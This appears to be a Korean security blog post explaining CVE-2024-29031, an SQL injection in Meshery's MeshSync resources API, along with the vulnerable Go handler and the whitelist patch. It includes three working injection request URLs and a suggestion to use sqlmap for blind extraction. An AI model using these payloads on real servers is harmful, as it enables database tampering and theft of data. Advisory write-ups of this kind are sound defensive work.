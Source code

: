 ```yaml
---
title: "[하루한줄] CVE-2024-29031 : Meshery의 SQL Injection 취약점"
author: ogu123
tags: [SQL injection, Meshery, ogu123]
categories: [1day1line]
date: 2024-03-29 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://securitylab.github.com/advisories/GHSL-2023-249_Meshery/

## Target

- Meshery < 0.7.17

## Explain

Kubernetes 인프라와 애플리케이션 설계 및 관리를 담당하는 Meshery에서 SQL Injection 취약점이 발견되었습니다.
```
func (h *Handler) GetMeshSyncResources(rw http.ResponseWriter, r *http.Request, _ *models.Preference, _ *models.User, provider models.Provider) {
    // --snip--
    order := r.URL.Query().Get("order")
    sort := r.URL.Query().Get("sort")
    // --snip--

    result := provider.GetGenericPersister().Model(&model.KubernetesResource{}).
        Preload("KubernetesResourceMeta")

        // --snip--

    if order != "" {
        if sort == "desc" {
            // --snip--
        } else {
            result = result.Order(order) // <- SQL Injection!
        }
    }

    err := result.Find(&resources).Error
    // --snip--
}
```
`/api/system/meshsync/resources`  API URL을 통해 `order` 매개변수를 전달할 경우`GetMeshSyncResources` 함수에서 매개변수를 처리합니다.

이때 `order` 매개변수의 값을 검증하지 않고 SQL문으로 사용하여 취약점이 발생했습니다.

```
http://(server):9081/api/system/meshsync/resources?order=1%3bATTACH+DATABASE+'/tmp/test'+AS+test--
http://(server):9081/api/system/meshsync/resources?order=1%3bCREATE+TABLE+test.pwn+(dataz+text)--
http://(server):9081/api/system/meshsync/resources?order=1%3bINSERT+INTO+test.pwn+(dataz)+VALUES+("pwned")--
```
위 세가지 요청을 통해, 공격자는 서버 DB에 접근하여 임의의 DB 파일을 생성하고, 그 안에 새로운 테이블과 데이터를 추가할 수 있습니다.

추가로 기존 DB 테이블에 원하는 데이터를 삽입하거나, sqlmap 도구를 통해 blind sql injection 공격으로 서버의 민감한 정보를 얻을 수 있습니다.

![](cve-2024-29031/image1.png)

해당 취약점은 `models.SanitizeOrderInput` 함수를 사용해 `order` 매개변수 값을 세 가지(created_at, updated_at, name)로 검증하는 코드가 추가되어 패치되었습니다.


## Reference

- [CVE-2024-29031 - Patch](https://github.com/meshery/meshery/blob/v0.7.17/server/handlers/meshsync_handler.go)
